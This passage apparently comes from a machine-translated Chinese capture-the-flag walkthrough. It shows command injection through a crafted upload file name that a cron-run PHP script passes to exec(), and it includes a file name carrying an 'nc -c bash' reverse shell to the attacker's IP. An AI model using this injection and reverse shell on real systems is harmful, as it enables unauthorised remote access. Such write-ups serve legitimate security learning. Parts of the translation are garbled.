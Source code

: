 我可以通过创建一个恶意的文件名来滥用 exec 函数，比如 foo<command here=""></command>，其中分号分隔两个命令，并等待 cron 触发。exec 函数调用将如下所示:

```
exec("nohup /bin/rm -f /var/www/html/uploads/10.10.14.72; ping -c 10.10.14.72 >/dev/null 2>&1 &")
```

check_attack.php 脚本将尝试删除名为“10.10.14.72”的文件，然后将 ping 命令传递给 exec。

我首先创建一个名为‘10 . 10 . 14 . 72’的文件；ping -c 1 10.10.14.72 '并使用 tcpdump 检查我是否收到 ping:

![](img/f225eb3537ece0923a1ac5d94e86fdc6.png)

我从机器上收到一个信号。然后，我创建了一个名为

```
10.10.14.72; nc -c bash 10.10.14.72 9005
```

其中-c 使用/bin/sh 在连接后执行命令。我设置了我的监听器并手动运行 check_attack.php，只是为了看看它是否工作。

![](img/0ca8d7126faf2dfd7e004515f8024d23.png)
